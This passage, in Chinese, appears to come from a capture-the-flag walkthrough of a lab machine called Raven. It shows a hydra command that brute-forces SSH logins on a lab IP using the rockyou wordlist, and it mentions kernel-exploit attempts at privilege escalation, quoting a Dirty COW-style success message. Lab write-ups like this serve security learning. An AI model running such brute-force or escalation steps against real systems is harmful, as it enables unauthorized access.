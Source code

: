 #### 邮箱信息
- 'users@httpd.apache.org', referenced from :
   /manual/en/ssl/ssl_faq.html

- 'raj@cup.hp.com', referenced from :
   /manual/en/platform/perf-hp.html

---

## 突破防线

#### name.txt:
```
michael
steven
root
```
`hydra -L name.txt -P /usr/share/wordlists/rockyou.txt -I 192.168.2.134 ssh`
ssh弱密码。通过前面的信息搜集，没想到这么简单就得到了一个shell。

![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-11/3.PNG)

## **尝试提权**

#### 内核漏洞check
```
whereis gcc 
```
`Linux Raven 3.16.0-6-amd64 #1 SMP Debian 3.16.57-2 (2018-07-14) x86_64 GNU/Linux`

用了好几个内核漏洞尝试提权，失败。

![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-11/4.PNG)
如果成功，应该显示`Done! Check /etc/passwd to see if the new user was created.`

You can log in with the username 'firefart' and the password 'a'.

---